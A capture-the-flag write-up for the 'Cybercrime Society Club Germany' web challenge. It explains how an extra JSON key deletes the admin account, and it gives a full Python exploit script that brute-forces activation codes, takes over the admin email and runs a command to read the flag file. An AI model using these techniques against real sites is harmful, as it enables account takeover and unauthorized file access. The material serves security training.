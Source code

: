 # Cybercrime Society Club Germany
> You are agent Json Bourne. Your mission: Hack this new cybercrime website before it is too late.

## About the Challenge
We were given a website and a source code (You can download the source code [here](cybercrime-society-club-germany.zip))


[Image extracted text: bSOOcObd44eOafd54abb2304-1024-cybercrime-society-club-germany challenge master campallesctfnet 31337
15
Home
Welcome to Cybercrime Society Club Germany (CSCG)
login
signup

Ureamrbimg
dreamrbime]


There are 2 features, login and signup. Here is the preview of the signup feature


[Image extracted text: Signup
Please Sign Up using the secret activation codel Also, you can choose a group to join! You can even pick your own userid which you will get if it is freel
Email:
Password:
Group:
Hacker
Userld:
1337
Activation Code:
Oooo
SUBMIT]


And here is the preview of login feature


[Image extracted text: Email:
Password:
SUBMIT
signup instead
home]


## How to Solve?
This is a stolen challenge from `Cyber Security Rumble 2022 - Robert is a gangsta` (You can see the writeup [here](https://www.norelect.ch/writeups/csr2022/robertisagansta/)). But there is a difference where we're not only just create an account, but we need to set the email to `admin@cscg.de`

```python
def is_admin(self, email):
    user = self.db.get(email)
    if user is None:
        return False

    #TODO check userid type etc
    return user["email"] == "admin@cscg.de" and user["userid"] > 90000000
```

And to bypass this we create a random user and then delete our account with the admin account by sending this HTTP request

```
POST /json_api HTTP/1.1
Host: example
Cookie: auth=28379856-e66b-4121-a8fb-5b6d90f68c87
...

{"action":"delete_account","data":{"email":"example@mail.com","test":"admin@cscg.de"}}
```

Why we can delete the admin account too? Let's take a look at delete account function

```python
def api_delete_account(data, user):
    if user is None:
        return error_msg("not logged in")

    if data["data"]["email"] != user["email"]:
        return error_msg("Hey thats not your email!")

    # print(list(data["data"].values()))
    if delete_accs(data["data"].values()):
        return success_msg("deleted account")
```

This code utilizes `data["data"].values()` to delete user accounts. Consequently, if we input two sets of key values in the JSON, the program will delete these two accounts.

And after we delete the admin account, create another user and then change the user email to `admin@cscg.de`. And voilà


[Image extracted text: This underground forum is in construction:
Settings
logout
admin stuff]


I am using the source code from this [blog](https://www.norelect.ch/writeups/csr2022/robertisagansta/) to solve the problem, and I have made some edits.

```python
import requests

s1 = requests.Session()

print("Creating account")
s1.post("https://b500c0bd44e0afd54abb2304-1024-cybercrime-society-club-germany.challenge.master.camp.allesctf.net:31337/json_api", json={
    "action": "create_account",
    "data": {
        "email": "info@example.com",
        "password": "whatever",
        "groupid": ".0E",
        "userid": "9998",
        "activation": ["{:0>4}".format(i) for i in range(10000)]
    }
})

print("Login")
s1.post("https://b500c0bd44e0afd54abb2304-1024-cybercrime-society-club-germany.challenge.master.camp.allesctf.net:31337/json_api", json={
    "action": "login",
    "data": {
        "email": "info@example.com",
        "password": "whatever"
    }
})

print("Delete admin")
s1.post("https://b500c0bd44e0afd54abb2304-1024-cybercrime-society-club-germany.challenge.master.camp.allesctf.net:31337/json_api", json={
    "action": "delete_account",
    "data": {
        "email": "info@example.com",
        "test": "admin@cscg.de"
    }
})


s2 = requests.Session()

print("Creating account again")
req1 = s2.post("https://b500c0bd44e0afd54abb2304-1024-cybercrime-society-club-germany.challenge.master.camp.allesctf.net:31337/json_api", json={
    "action": "create_account",
    "data": {
        "email": "info@example.com",
        "password": "whatever",
        "groupid": ".0E",
        "userid": "9998",
        "activation": ["{:0>4}".format(i) for i in range(10000)]
    }
})

print("Login")
s2.post("https://b500c0bd44e0afd54abb2304-1024-cybercrime-society-club-germany.challenge.master.camp.allesctf.net:31337/json_api", json={
    "action": "login",
    "data": {
        "email": "info@example.com",
        "password": "whatever"
    }
})

print("Change email to admin")
s2.post("https://b500c0bd44e0afd54abb2304-1024-cybercrime-society-club-germany.challenge.master.camp.allesctf.net:31337/json_api", json={
    "action": "edit_account",
    "data": {
        "email": "admin@cscg.de"
    }
})

print("Executing command")
r2 = s2.post("https://b500c0bd44e0afd54abb2304-1024-cybercrime-society-club-germany.challenge.master.camp.allesctf.net:31337/json_api", json={
    "action": "admin",
    "data": {
        "cmd": ["date", "-f", "flag.txt", "-u"]
    }
})

print(r2.json())
```


[Image extracted text: Creating account
Login
Delete
admin
Creating account
Login
Change email
to admin
Executing
command
{
return
Success
message
date:
invalid date
ALLES ! {jsOn_bOurn3_strlkes_aguin! } ' In' }
again]


```
ALLES!{js0n_b0urn3_str1kes_ag4in!}
```